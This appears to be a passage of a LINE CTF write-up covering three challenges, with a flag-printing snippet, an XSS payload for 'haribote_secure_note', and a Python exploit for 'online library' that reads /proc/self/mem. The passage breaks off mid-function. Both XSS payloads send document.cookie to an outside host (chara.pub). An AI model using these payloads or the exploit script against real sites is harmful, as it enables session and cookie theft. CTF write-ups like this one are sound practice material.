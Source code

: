 ```python
from me7_ba11.meatball import MeatBall

ball = MeatBall("./all_decrypt.ball")
d = (ball.get_all())
for item in d.keys():
    print(ball.get({"key":item}))

#LINECTF{Tokyo_Udongshinoisieeee_Yokohama_toyonodongoisieeee_Yokosuka_curryoisieeee}
```



### haribote_secure_note
first line is username, second line is content. username is injected into script tag with valid nonce, allowing import to work. `g.g` resolves to `document.getElementById("g").g.href`. it have to be `data:` uri instead of `http://remote_server/evil.js` because the bot will close browser almost immediately after clicking the "view user info" button, load remote js is not fast enough.
```
";import(g.g)//
</script><a id='g' href='data:application/javascript,window.location.href=%60//chara.pub/flag?%60+document.cookie' />
```

### online library
reading `/proc/self/mem` causes xss. All HTTP request can be seen in memory, Search your post payload in memory(egghunting) and submit it to bot. Also, because cookies are in HTTP request header, you can just search for `LINECTF{` for the HTTP request the bot made to the server and read the flag in HTTP cookies.
```python
import requests
proxies = {}
payload = "<script>fetch('http://api.chara.pub/success');fetch('http://api.chara.pub/flag?flag='+document.cookie)</script>"
real_payload = payload

payload = "THISISPAYLOAD"*10+ payload + "THISISPAYLOAD"*10

SERVER= "http://35.243.100.112"
def insert(data,title="aaa"):
    #requests.post(SERVER + "/insert",data={"title":title,"content":data},proxies=proxies)
    requests.post(SERVER + "/insert",data=data,proxies=proxies)
def urlencode(sth):
	result = ""
	for i in sth:
		result += "%"
		result += "%02x" % ord(i)
	return result
def read_file(path,seek_start=0,seek_end=None):
    if seek_end is None:
        seek_end = int(seek_start) + (1024 * 256)
    path = urlencode(path)
    resp = requests.get(SERVER+f"/{path}/{seek_start}/{seek_end}",proxies=proxies)
    text = resp.text
    if "</h1><hr/>" not in text:
        raise Exception(text)
    return text[text.find("</h1><hr/>") + len("</h1><hr/>"):]

def egghunt(start,end):
    print("egghunting for %x,%x" % ((start,end)))
    pos = start
    pos_end = pos + (1024 * 256)
    while 1:
        if pos_end > end:   
            pos_end = end
```